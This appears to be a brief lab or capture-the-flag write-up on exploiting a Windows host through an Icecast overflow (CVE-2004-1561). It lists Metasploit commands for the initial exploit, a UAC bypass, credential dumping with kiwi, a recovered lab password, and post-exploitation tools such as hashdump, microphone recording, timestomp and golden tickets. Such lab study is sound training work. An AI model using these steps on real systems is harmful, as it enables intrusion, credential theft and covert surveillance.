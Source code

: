 # BASIC INFO

```
ip_addr = 10.10.93.247

open port:
	135/tcp 		msrpc
	149/tcp 		nebios-ssn
	445/tcp 		microsoft-ds
	3389/tcp 		msrdp
	5357/tcp		http Microsoft HTTPAPI httpd 2.0
	8000/tcp		http Icecast
	49152-49154/tcp	msrpc
	49158-49160/tcp	msrpc

```

# GAIN ACCESS


> Icecast:
>> Exec code overflow
>> CVE-2004-1561


# EXPLOIT AND ESCALATE

```
msfconsole
use exploit/windows/http/icecast_header

run post/multi/recon/local_exploit_suggester

exploit/windows/local/bypassuac_eventvwr

```

# LOOTING

```

migrate -N spoolsv.exe

load kiwi

creds_all
```

> Dark's password = Password01!


# POST EXPLOITATION


- **hashdump** to dump all hash

- **screenshare** to watch remote user's desktop in real time

- **record_mic** to record with mic

- **timestomp** to modify timestamp

- **golden_ticket_create** to create a golden ticket that allows us to authenticate anywhere